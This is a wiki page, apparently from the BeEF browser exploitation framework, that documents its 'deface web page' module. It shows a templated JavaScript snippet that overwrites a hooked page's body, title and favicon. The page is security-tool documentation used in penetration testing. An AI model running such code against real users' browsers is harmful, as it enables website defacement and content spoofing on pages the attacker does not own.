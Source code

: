## Summary
* **Objective**: Overwrite the page, title and shortcut icon on the hooked page.
* **Date**: ???
* **Authors**: antisnatchor
* **Browsers**: All (User will be notified)
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/deface_web_page]]

## Internal Working

This command modify the HTML, the title and the favicon of the page with the parameters given :

```javascript
	document.body.innerHTML = "<%= @deface_content %>";
	document.title = "<%= @deface_title %>";
	beef.browser.changeFavicon("<%= @deface_favicon %>");
```

## Feedback